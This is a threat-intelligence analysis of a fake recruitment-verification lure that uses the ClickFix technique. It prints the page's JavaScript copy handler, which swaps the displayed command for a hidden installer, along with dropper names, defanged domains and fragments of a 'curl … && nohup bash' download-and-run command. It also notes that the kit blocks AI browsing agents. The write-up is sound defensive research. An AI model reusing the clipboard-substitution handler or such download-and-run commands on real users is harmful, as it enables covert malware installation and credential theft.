

I found that a fake recruitment verification page copies a different command than it shows. The copied command prints the promised `VERIFY-` code to the terminal while it also attempts to install a payload.

## Key takeaways

- When the candidate presses copy, the page replaces the selected text with a command that prints a `VERIFY-` result and starts an installer in the background.
- The installer is downloaded from the lure page's own origin, so the bundle contains no hostname literal and a search for known C2 domains misses it.
- One kit served every lure I recovered, and by 12 November it ran on a generation of 142 operator-named hostnames, of which 54 were live.
- Later builds show a 565-byte "Coming Soon" shell to clients that do not run JavaScript and block AI browsing agents, so a clean automated verdict on these hosts is weak evidence.
- Defenders should hunt for a shell or PowerShell download shortly after a terminal paste, from a host the browser had just been visiting.

## Context: one entry point in a larger cluster

The recruitment site asks the candidate to copy a verification command, run it in a terminal, and paste back the result. This is the ClickFix technique: a web page persuades someone to paste and run a command, which shifts execution from the browser to the user's terminal.

Three phishing messages received in June and July 2026 led me to several delivery branches, collection payloads, a GitLab configuration resolver and exposed administration software. In the browser branch, the verification step conceals the install attempt.

[Proofpoint tracks the cluster as UNK_DeadDrop](https://www.proofpoint.com/us/blog/threat-insight/dont-fear-repo-unkdeaddrop-phishing-campaign-targets-developers-steal). Its reporting, together with [Denys Vitali's earlier investigation](https://blog.denv.it/posts/i-was-likely-targeted-by-dprk-in-a-sophisticated-developer-malware-campaign/), provides context for the editor-based branch in the next post. Unit 42's [research on fake-recruiter campaigns delivering BeaverTail and InvisibleFerret](https://unit42.paloaltonetworks.com/north-korean-threat-actors-lure-tech-job-seekers-as-fake-recruiters/) describes the wider pattern of job-themed lures aimed at developers. The W3C [Clipboard API specification](https://www.w3.org/TR/clipboard-apis/) defines the copy event that allows a page to replace selected text.

## Delivery: the clipboard holds a different command

### The command shown to candidates

The recovered lures use recruitment and technical-assessment themes. Their verification flow asks the candidate to copy a command, enter or use an access phrase, and return the terminal's output.

The command does print the promised verification result while it also attempts to install a payload. That makes the exchange more convincing than a page that asks someone to run an unexplained command, because the page and terminal appear to agree. The candidate gets the expected output to submit.



*Figure 1. The copied command combines the verification output with an installation attempt.*

### Copying changes the terminal command

The copy handler served by `d2saitrade[.]ink` replaces the clipboard contents in a few lines. Only line breaks have been added to this excerpt:

```javascript
c.addEventListener(`copy`, e => {
  if (!(window.getSelection()?.toString() ?? ``).trim()) return;
  let t = e.target;
  !(t instanceof Node) || !c.contains(t) || (
    e.preventDefault(),
    e.clipboardData?.setData(`text/plain`, R(b.nonce, b.phrase, y)),
    x(`cmdline_copied`, { os: y, step: `verify` })
  );
});
```

`preventDefault()` stops the browser's normal copy operation. `setData()` places the result of `R()` on the clipboard: a command built for the detected operating system (`y`) and verification nonce. The handler then reports a `cmdline_copied` event to the site.

`R()` receives the phrase entered by the candidate, but that value does not appear in the command text in this bundle. The handler also runs only when text inside the command box is selected. I followed `R()` into the installation logic.

A clipboard API alone is a weak signal because legitimate applications use one too. The evidence of deception is the mismatch between the displayed verification text and the generated command.

### Platform-specific wrappers

The generated command differs by platform:

- On macOS and Linux, it starts a background download-and-execution sequence, then prints a `VERIFY-` result. Backgrounding lets the visible verification wrapper finish while installation proceeds separately.
- On Windows, the hidden installation logic is prepended to the prompt sequence, so the candidate sees an access-key prompt before the result. The recorded Windows branch explicitly enables the hidden installer.

Both wrappers are documented in the [clipboard-lure analysis](../preprint/evidence/E02.pdf).

The verification output makes the copied command look successful even if the installation attempt fails. Checking for the expected prefix misses that second behavior.

The value the candidate pastes back is not decoration either. The flow is built so that the site sees the verification code before it opens the next step. That makes the form field a proof-of-execution gate as well as a filter against sandboxes, although I never recovered the backend code that checks it.

### Comparison with commercial ClickFix kits

Building the command at the moment of copying is not unique to this operator. The commercial ClickFix kits that circulated in 2026, such as [ErrTraffic](https://www.sekoia.com/blog/unveiling-errtraffic-inside-a-growing-clickfix-malware-distribution-framework), also give each visitor a different command. They ask their own server for an encrypted PowerShell line that targets Windows, and they are sold to many customers who inject the same widget into hacked websites.

This lure assembles the command inside the page from its own templates, the visitor's platform and the values of the verification exchange. It has working branches for macOS and Linux as well as Windows.

I compared it with four commercial ClickFix frameworks reported in 2026. None of their client-side markers, server routes or infrastructure appeared in any of the bundles I hold. Nothing points to a bought or rented front end, although a private or unreported kit remains possible.

## Installer: the download origin is the lure site

The URL builder takes its first-stage download location from `window.location.origin`. Whichever site serves the lure also supplies the download origin. The recorded names include:

```text
verify_m          Unix-like verification dropper
verify_w          Windows verification dropper
check_bot_m/w     Anti-bot variants
check_3d_m/w      Design-challenge variants
```

This design makes the frontend portable across lure domains. Changing the page's origin also changes the first-stage retrieval location, without a hostname literal in the bundle, so searching only for known C2 domains will miss that URL.

The filenames are no better as indicators. The same 52,108-byte Windows launcher was served as `/verify_w` on a conference-portal domain and as `/check_w` on a talent domain. The size differences between dropper copies on live hosts came only from the length of the embedded hostname, so the hash is the value to watch.

Later collection code obtains its destination through a separate mechanism, including the GitLab resolver examined in Part 6. The lure host and collection destination therefore belong at different points in the chain.

## Telemetry and evasion: the kit reports copies and hides from scanners

### Copy telemetry and the conversion funnel

The bundle references `/device-check`, `/verify`, `/complete` and `/track-activity`, plus challenge-specific routes. The `cmdline_copied` event shows that the client is designed to report when someone copies the command.

By the 12 November build the telemetry had become a conversion funnel. It posted page views, form submissions, referral-code unlocks, step checks and completions, command copies and a verification-draft event. The operator console that older builds hid behind an obscure route sat openly at `onboarding.<lure>/admin`. An onboarding "contractor portal" for applicants said to have passed offered tasks with repository links at quoted hourly rates.

The telemetry still records a copy action before any terminal execution. Neither that event nor the verification output confirms installation, and no backend infection log was recovered.

### Hosts that look empty to automated tools

The later builds were also made to look empty to the tools that would catalogue them. From July, every path on a lure host returned the same 565-byte "Coming Soon" shell to any client that did not run JavaScript. A URL scanner that fetches without executing scripts scores the host as a parked placeholder.

By 12 November the careers bundle served a "device-blocked" page to the user agents of ChatGPT's browsing agent, OpenAI's search crawler, Perplexity's agent, Meta's external agent and Google search, among others. A clean or "parked" verdict from an automated service is therefore weak evidence about these hosts. An AI assistant asked to "check this careers page" on someone's behalf is one of the clients the kit turns away.

## Lure estate: one kit, many covers

### Two builds of one kit

The captured pages turned out to be one kit shipped in two sizes:

- A light build of about 100 KB, used on `d2saitrade[.]ink`, `joincategory[.]xyz` and `surgecareer[.]ink`, is a plain access-key panel.
- A heavy build of about 1 MB, used on `dscufo[.]xyz`, `nemesistrade[.]work` and an Almanac "validator" page, bundles browser machine-learning and 3D libraries. It runs a real in-browser face or "deepfake" check as a prop before the clipboard step.

Every bundle I recovered implements the same clipboard substitution and references the same first-stage endpoints. Across these interfaces, the clipboard substitution is the behavior that changes the command. The installer served under the AI-verification theme decrypts to the same company-wallet stealer the editor route installs.

### Captured lure hosts

The retained lure material includes builds associated with `joincategory[.]xyz` and `d2saitrade[.]ink`, plus heavier captures from `dscufo[.]xyz` and `nemesistrade[.]work`. Later URLScan response-body recovery found the same kit on `discufo[.]xyz`, `trixauvex[.]org`, `surgecareer[.]ink`, `calendly[.]foxtopia[.]xyz` and `calendly[.]optixauvex[.]us`.

The June lure from `nodit[.]org` looks like an earlier and less mature iteration. Its wizard ends in an "Anti-Bot Check" that later dropper names echo, and a public sandbox fetch of its check path returned a launcher I hold. It ran on a different hosting stack, so I hold that link only at moderate confidence.

I added these captures to the known lure set. Visitor activity remains unknown. The [historical indicator reference](historical-indicators.md) lists their URLs and evidence class. The [artifact reference](artifact-reference.md) records the response hashes.

### Covers matched to the respondent

The same clipboard kit appeared under later covers. July captures preserve an Almanac-themed page at `validator.aavzx[.]ink` and a 3D box-preview lure at `3dscenebox[.]online`. The latter's `check_3d_m` and `check_3d_w` files matched the `upd_m` and `upd_w` droppers from the `api.aazdias[.]ink` store by SHA-256. The captures date the pages and identify their droppers. No visitor execution records accompanied them.

The operator's own console, which I read later, explained why the covers differ. The mailing list behind the lures is an untargeted harvest of commit addresses, the console records who replies, and each respondent receives a pretext matched to how they describe themselves:

- A crypto developer gets a validator page.
- Someone who says they do not code gets an invitation to review a repository in an AI editor.
- Someone who mentions 3D work gets the Scene Box preview.

All three skins drop the same pair of droppers. I looked for a separate pipeline aimed at designers and artists and found none, so Scene Box is a skin on the existing kit rather than a new campaign.

### Changes after July

The kit kept changing after July, and the later builds show where the operator put its effort. A newer version widened the role selector from engineering to designers, product and project managers, marketers, HR, analysts, customer success and technical writers. It added a 3D "design challenge" path with its own dropper filename and a short instructional video that walks the applicant through the paste step. No legitimate careers site needs to teach anyone to paste a command into a terminal, which makes the video a detection opportunity of its own.

Around the kit, the lure estate was rebuilt twice:

1. An August and September wave of about 98 names in seven naming families such as `buildwith<project>` and `join<project>`, impersonating about fifty real crypto projects.
2. An October fleet on new addresses with new pretexts: a research fellowship, a conference invitation portal, parcel-tracking pages and a fake Bittensor subnet.
3. A November generation of 142 operator-named hostnames that I recovered only by pivoting addresses [Stormshield published in its Trigram report](https://web.archive.org/web/20261111155634/https://www.stormshield.com/news/cti-trigram-campaign/), of which 54 were live on 12 November.

A 55-folder directory of `FrontEnd<Brand>` folders, served on one address under five lure hostnames in October, named the June, July and October brands side by side. That is the strongest single sign that these waves are one operation, although the folders' contents were never recovered.

## Detection: signals in the page and on the endpoint

### Browser-side and endpoint signals

The useful browser-side signal is the combination of a verification interface, a copy handler and an argument that leads to installation logic. The word "verify," a clipboard API or a download helper alone is weak evidence.

Endpoint hunting should follow the command's actual destination. Here the candidate pastes into a terminal, so a rule requiring an editor-to-shell process chain would miss the intended behavior. Follow the copied command, its child processes, downloaded scripts, persistence and outbound connections.

For static triage, compare the displayed text with the value passed to the clipboard, then trace the download URL back through the command builder. That exposes the substitution without executing the bundle.

Because the first-stage download comes from the lure page's own origin, one concrete hunt follows directly from the code: look for a shell or PowerShell download shortly after a terminal paste, from a host the browser had just been visiting.

The [technical paper](../preprint/UNK_DeadDrop-Preprint.pdf) also records that some copied strings end in a trailing newline. Depending on terminal behavior, the command may run as soon as it is pasted. This was not tested across terminals.

### Static scanning of the lure bundle

A later scan of a held lure bundle found two clipboard-write sites in a sample of 73,545 bytes, with the following SHA-256:

```text
5ee915bb8d0363bd92176cc595d7425fd7e7830508d8824d90b5285a3d2b11bd
```

The copied value in this bundle is generated when someone clicks. The builder receives the visitor's operating system along with a nonce and phrase, so a scanner that reads only literal string arguments sees a clipboard call with an unresolved value.

Version 0.2.0 of the companion scanner follows that value through the command builder, platform helpers and process-detaching wrapper. It extracts their text without evaluating the code. In this bundle, the `clickfix-clipboard-command` rule reports an error and identifies the `perl -MPOSIX` double-fork wrapper, the verification wording and the copy handler that replaces the selected text.

The same rule follows the later Scene Box lure's generic `copyText(text)` helper to the `curl -ks … && nohup bash` command supplied by its callers. All three retained lure generations reach error level.

Across the 3,000 popular npm packages and Open VSX extensions used to calibrate the scanner, the rule raised no errors and one warning for an installer's "copy command" button. That low noise is not the same as coverage, as the limits below show.

## Limitations

- In a later bypass study, single small rewrites evaded the rule until I hardened it: reaching the clipboard builder through a reassignable alias, assembling the command elsewhere, or copying a hidden textarea through the legacy copy command.
- A command fetched at run time is out of reach of any static check because its text is not in the file. To verify the visual deception, compare the rendered instruction with the command placed on the clipboard in a browser.
- Visitor activity remains unknown, and no backend infection log was recovered.

## Conclusion

The lure's deception sits in one place: the gap between the command the page displays and the command it places on the clipboard. The verification output then makes the pasted command look successful, and the pasted-back code gives the operator proof of execution.

Defenders can compare displayed and copied text during static triage, and watch endpoints for a shell or PowerShell download that follows a terminal paste from a recently visited host. Domain blocklists and dropper filenames age quickly here; the hash of the launcher and the behavior of the copy handler last longer.

The [repository branch](02-vsix-editor-execution.md) uses a different entry point: a package calling itself Google Update Support installs collection components through the code editor.
